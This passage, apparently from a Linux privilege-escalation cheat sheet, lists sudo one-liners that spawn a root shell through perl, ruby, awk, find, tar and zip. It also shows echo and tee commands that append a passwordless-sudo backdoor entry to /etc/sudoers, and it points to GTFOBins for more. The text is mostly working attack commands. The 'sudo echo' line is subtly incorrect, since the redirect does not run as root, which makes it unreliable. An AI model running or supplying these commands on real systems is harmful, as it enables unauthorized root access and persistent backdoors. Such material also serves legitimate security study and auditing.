 - **Perl**:

```bash
sudo perl -e 'exec "/bin/bash";'
```

- **Ruby**:

```bash
sudo ruby -e 'exec "/bin/bash";'
```

### **System Utilities**

Some utilities allow command execution or file manipulation.

- **awk**:

```bash
sudo awk 'BEGIN {system("/bin/bash")}'
```

- **find**:

```bash
sudo find / -exec /bin/bash \;
```

- **tar**:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

- **zip**:

```bash
sudo zip exploit.zip /tmp -T --unzip-command="sh -c /bin/bash"
```

### **Exploiting File Access**

If a binary allows editing system-critical files, it can be used to escalate privileges.

- **echo**:

```bash
sudo echo "amr ALL=(ALL) NOPASSWD:ALL" >> /etc/sudoers
```

- **tee**:

```bash
echo "amr ALL=(ALL) NOPASSWD:ALL" | sudo tee -a /etc/sudoers
```

## **Using GTFOBins for Exploitation**

The GTFOBins database is an excellent resource to identify exploitable binaries. It provides ready-to-use commands for privilege escalation based on the binary's functionality.

Steps:
